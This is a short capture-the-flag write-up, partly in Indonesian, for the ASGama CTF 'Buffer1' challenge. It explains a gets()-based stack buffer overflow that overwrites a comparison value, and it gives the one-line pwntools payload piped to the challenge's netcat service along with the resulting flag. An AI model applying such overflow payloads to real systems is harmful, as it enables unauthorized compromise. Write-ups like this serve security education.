

# __ASGama CTF__ 
## _Buffer1_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary Exploitation | 50 | l0l

**Description:** 

> Buffer1

> nc asgama.web.id 40203
>
> [buf1](./buf1)

### buf1
```
ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=66a2a0cfb02b03a6abf1e65146da2739e8b17bdd, not stripped

gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

### buf1 Disassembly


Seperti yang terlihat di hasil disassembly, input kita disimpan di stack mulai dari address `ebp-0x8c` menggunakan fungsi gets (vulnerable terhadap buffer overflow). Setelah itu program membandingkan nilai pada alamat `ebp-0xc` dengan 0x13377331, apabila sama maka program memanggil `cat flag` dan menampilkan flag. Maka kita susun payload dengan mengirim sembarang karakter sebanyak 0x80 lalu kita kirim 0x13377331 dalam format little endian.

### Payload
`$ python -c "from pwn import p32; print 'A'*0x80+p32(0x13377331)" | nc asgama.web.id 40203`


### Result 
```
$ python -c "from pwn import p32; print 'A'*0x80+p32(0x13377331)" | nc asgama.web.id 40203
GamaCTF{BufF3rR__0vErf10W__EZ}
```

### Flag 
GamaCTF{BufF3rR__0vErf10W__EZ}